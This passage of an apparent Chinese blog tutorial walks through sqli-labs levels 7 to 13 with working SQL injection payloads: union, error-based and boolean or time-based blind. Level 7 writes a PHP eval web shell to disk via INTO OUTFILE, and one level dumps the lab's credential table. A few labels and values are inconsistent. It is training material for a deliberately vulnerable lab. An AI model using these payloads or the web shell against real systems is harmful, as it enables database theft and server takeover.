  emmmm，以下的内容完全和Less-5一样，，将`?id=1'`改为`?id=1"` 单引号改为双引号即可

  ### Less-7

  GET - Dump into outfile - String
  GET - 输出到输出文件 - 字符串

  1. 查找注入点

  ```
  回显为
  You are in.... Use outfile......
  
  这有点离谱啊，因为路径全靠猜（你猜我猜不猜
  
  这里可以到第一关用 @@datadir 获取路径， payload 为:
  ?id=-1' union select 1,2,@@datadir --+
  
  我这里的靶场（LingJing 靶场）回显路径为
  /var/lib/mysql/
  
  这里出现了一个大问题，我这里没有合适的环境，猜不到中间件的路径，这里可以参考文末《mysql注入天书》的链接里面的内容，参照里面的内容使用 outfile 进行注入
  ```

  贴一个结果

  

  贴一个常用路径: https://www.cnblogs.com/lcamry/p/5729087.html

  > 说实话，我在正常环境中遇到这种payload说不定就放弃了，CTF也需要提示，正常环境谁会套几层括号啊(bushi

  ```
  ?id=1')) --+
  ```

  **这里可以用盲注的方式进行注入**

  最后我使用了小皮面板搭建了一个临时环境，需要注意的是，小皮面板的MySQL配置没有开启写入文件，需要在`my.ini`配置文件的`[mysqld]`下加入`secure_file_priv = ""`配置重启数据库，不然写不进去文件

  且写入文件是一次性的，无法覆盖，可以边删边测，或者更换文件名测试。

  直接给payload吧

  ```
  ?id=1')) union select 1,2,'<?php @eval($_POST["pass"])?>' into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.php"--+
  ```

  


  ### Less-8

  GET - Blind - Boolian Based - Single Quotes
  GET - 盲注 - 基于布尔 - 单引号

  1. 查找注入点

  ```
  一个单引号 + 两个单引号测出字符注入，
  ?id=1'  --+
  ?id=1''  --+
  
  and 测出逻辑闭合正常
  ?id=1' and 1=1  --+
  ?id=1' and 1=2  --+
  
  order by 测出3列，4列不回显
  ?id=1' order by 1,2,3  --+
  ?id=1' order by 1,2,3,4  --+
  
  后面就是正常盲注
  ```

  ### Less-9

  GET - Blind - Time based. - Single Quotes
  GET - 盲选 - 基于时间 - 单引号

  1. 测试是否存在注入，这里使用了一个简单的sleep()判断是否存在注入

  ```
  正确语句，不会延迟
  ?id=1' and if(1=1,1,sleep(5)) --+ 
  
  错误语句，延迟5秒
  ?id=1' and if(1=2,1,sleep(5)) --+ 
  ```

  后面就是正常盲注

  ### Less-10

  GET - Blind - Time based - double quotes
  GET - 盲注 - 基于时间 - 双引号

  将Less-9的单引号改为双引号就行

  ### Less-11

  POST - Error Based - Single quotes - String
  POST - 基于错误 - 单引号 - 字符串

  从这里难度继续提升，进入POST部分

  1. 寻找注入点

  ```
  先随便输入一个账号密码
  然后hackbar laod，获取POST传参
  
  passwd=passwd
  &submit=Submit
  &uname=admin
  
  然后分别在admin和passwd添加单引号
  ''passwd'' LIMIT 0,1' -- passwd'，闭合后面
  'passwd' LIMIT 0,1' -- admin'闭合前面
   
  可以构造查询语句
  select ?
  from ?
  where ?user=?
  and ?pass=?
  
  user在前，直接在user位置注入，注释后面的内容
  
  构造payload body
  passwd=passwd
  &submit=Submit
  &uname=admin' --+
  ```

  2. 查询列数

  ```
  passwd=passwd
  &submit=Submit
  &uname=admin' order by 1,2,3 --+
  
  passwd=passwd
  &submit=Submit
  &uname=admin' order by 1,2 --+
  ```

  

  

  3. 输入一个不存在的用户，回显注入位置

  ```
  passwd=passwd
  &submit=Submit
  &uname=-admin' union select 1,2 --+
  
  回显
  Your Login name:1  
  Your Password:2
  ```

  

  4. 查询数据库

  ```
  passwd=passwd
  &submit=Submit
  &uname=-admin' union select 1,database() --+
  
  回显
  Your Login name:1  
  Your Password:security
  ```

  

  5. 查询表名

  ```
  passwd=passwd
  &submit=Submit
  &uname=-admin' union 
  select 1,group_concat(table_name) 
  from information_schema.tables 
  where table_schema='security' --+
  
  回显
  Your Login name:1  
  Your Password:emails,referers,uagents,users
  ```

  

  6. 查询列

  ```
  passwd=passwd
  &submit=Submit
  &uname=-admin' union 
  select 1,group_concat(column_name) 
  from information_schema.columns 
  where table_schema='security' and table_name='users' --+
  
  回显
  Your Login name:1  
  Your Password:id,username,password
  ```

  

  7. 查询数据内容

  ```
  passwd=passwd
  &submit=Submit
  &uname=-admin' union 
  select 1,group_concat(username,':',password) from users --+
  
  回显
  Your Login name:1
  Your Password:Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4
  ```

  

  ### Less-12

  POST - Error Based - Double quotes - String - with twist
  POST - 基于错误 - 双引号 - 字符串 - with twist

  1. 寻找注入点

  ```
  用户名和密码分别添加单引号，没有回显
  passwd=passwd
  &submit=Submit
  &uname=admin'
  
  passwd=passwd
  &submit=Submit
  &uname=admin'
  
  passwd=passwd'
  &submit=Submit
  &uname=admin'
  
  用户名和密码再分别添加双引号
  passwd=passwd'
  &submit=Submit
  &uname=admin'"
  回显
  'passwd'") LIMIT 0,1'
  
  passwd=passwd'"
  &submit=Submit
  &uname=admin'
  '"passwd'"") LIMIT 0,1'
  
  分析
  两次回显可以猜测用户名在前面，闭合为 ")
  
  构造payload
  passwd=passwd
  &submit=Submit
  &uname=admin") --+ 
  
  后续和Less-11一样就行
  ```

  ### Less-13

  POST - Double Inject - Single quotes - String - with twist
  POST - 双重注入 - 单引号 - 字符串 - with twist

  1. 查找注入点

  ```
  用户名和密码分别输入单引号
  passwd=pass
  &submit=Submit
  &uname=admin'
  回显
  'pass') LIMIT 0,1'
  分离单引号
  pass')
  
  passwd=pass'
  &submit=Submit
  &uname=admin
  回显
  ''pass'') LIMIT 0,1'
  分离单引号
  pass')
  
  user在前，闭合为') 
  ```


  2. 查询注入回显位置

  ```
  尝试输入
  passwd=pass
  &submit=Submit
  &uname=admin') and 1=1 --+
  结果：成功
  
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 1=2 --+
  结果：失败
  
  passwd=pass
  &submit=Submit
  &uname=1admin') or 1=1 --+
  结果：成功
  
  passwd=pass
  &submit=Submit
  &uname=1admin') or 1=2 --+
  结果：失败
  
  只有两种界面变化，可能需要进行盲注
  ```

  正确回显

  

  错误回显

  

  3. 猜测数据库长度

  ```
  passwd=pass
  &submit=Submit
  &uname=admin') and length((select database()))=8 --+
  ```

  4. 猜测数据库名

  ```
  盲注：security
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),1)='s' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),2)='se' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),3)='sec' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),4)='secu' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),5)='secur' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),6)='securi' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),7)='securit' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and left((select database()),8)='security' --+
  ```

  5. 猜测有多少表

  ```
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  (
    select count(table_name) 
    from information_schema.tables 
    where table_schema='security'
  )=4 --+
  ```

  6. 猜测各表长度

  ```
  第1个表长度 emails(6)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 0,1
  ))=6 --+
  
  第2个表长度 referers(8)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 1,1
  ))=8 --+
  
  第3个表长度 uagents(7)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 2,1
  ))=7 --+
  
  第4个表长度 users(4)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ))=5 --+
  ```

  7. 猜测各表名

  节约时间，直接第4个表

  ```
  第4个表 emails
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ),1,1)='u' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ),2,1)='s' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ),3,1)='e' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ),4,1)='r' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select table_name
    from information_schema.tables 
    where table_schema='security'  limit 3,1
  ),5,1)='s' --+
  
  ```

  5. 猜测表列数

  ```
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  ((
    select count(column_name)
    from information_schema.columns 
    where table_schema='security' and table_name = 'users'
  ))=3 --+
  ```

  6. 猜测每列长度

  ```
  三列分别是：id(2),username(8),password(8)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 0,1
  ))=2 --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ))=8 --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ))=8 --+
  ```

  7. 猜测每列名称

  ```
  第1列 id
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 0,1
  ),1,1)='i' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 0,1
  ),2,1)='d' --+
  
  
  第2列 username
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),1,1)='u' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),2,1)='s' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),3,1)='e' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),4,1)='r' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),5,1)='n' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),6,1)='a' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),7,1)='m' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 1,1
  ),8,1)='e' --+
  
  第3列 password
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),1,1)='p' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),2,1)='a' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),3,1)='s' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),4,1)='s' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),5,1)='w' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),6,1)='o' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),7,1)='r' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select column_name
    from information_schema.columns 
    where table_schema='security' and table_name = 'users' limit 2,1
  ),8,1)='d' --+
  
  ```

  8. 猜测数据长度，以第一条为例

  ```
  第1条 Dumb(4):Dumb(4)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select username
    from users limit 0,1
  ))=4 --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  length((
    select password
    from users limit 0,1
  ))=4 --+
  ```

  9. 猜测内容

  **注意：MySQL实际上不区分大小写**

  ```
  第1条 Dumb(4):Dumb(4)
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select password
    from users limit 0,1
  ),1,1)='d' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select password
    from users limit 0,1
  ),2,1)='u' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select password
    from users limit 0,1
  ),3,1)='m' --+
  
  passwd=pass
  &submit=Submit
  &uname=admin') and 
  substr((
    select password
    from users limit 0,1
  ),4,1)='b' --+
  ```

  ### 未完

  随(lan)缘(ai)更(fan)新(le)……


  ## 参考资料

  - sqli-labs通关详解: https://www.freebuf.com/articles/web/440191.html
  - 【独家连载】mysql注入天书（一）Basic Challenges: https://xz.aliyun.com/news/371
